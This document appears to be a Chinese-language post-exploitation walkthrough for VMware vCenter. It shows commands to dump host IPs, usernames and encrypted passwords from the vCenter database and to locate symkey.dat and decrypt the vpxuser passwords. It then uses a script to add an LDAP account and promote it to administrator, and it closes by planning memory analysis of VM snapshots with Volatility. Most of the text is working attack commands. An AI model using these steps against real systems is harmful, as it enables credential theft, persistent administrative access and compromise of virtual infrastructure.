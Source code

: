     
    
    # linux  
    /opt/vmware/vpostgres/current/bin/psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc  
      
    # windows  
    C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

 **获取symkey.dat文件**

    
    
    # linux  
    /etc/vmware-vpx/ssl/symkey.dat  
      
    # windows  
    C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat

 ****

解密 vpxuser 密码

    
    
    python3 decrypt.py symkey.dat password.enc password.txt

 **拿到权限后添加账户**

添加账户

    
    
    python vCenterLDAP_Manage.py adduser  
    input the new username: 1234admininput the dn: cn=1234admin,cn=Users,dc=vsphere,dc=localinput the userPrincipalName: 1234admin@vsphere.local

提升至管理员

    
    
    python vCenterLDAP_Manage.py addadmininput the user dn: cn=1234admin,cn=Users,dc=vsphere,dc=local

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20221207152841.png)

后续

 **创建快照**

![](https://gitee.com/fuli009/images/raw/master/public/20221207152902.png)

分析快照文件需要.vmem文件作为参数，而.vmem文件通常很大，为了提高效率，这里选择将volatility上传至VMware ESXI，在VMware
ESXI上分析快照文件。
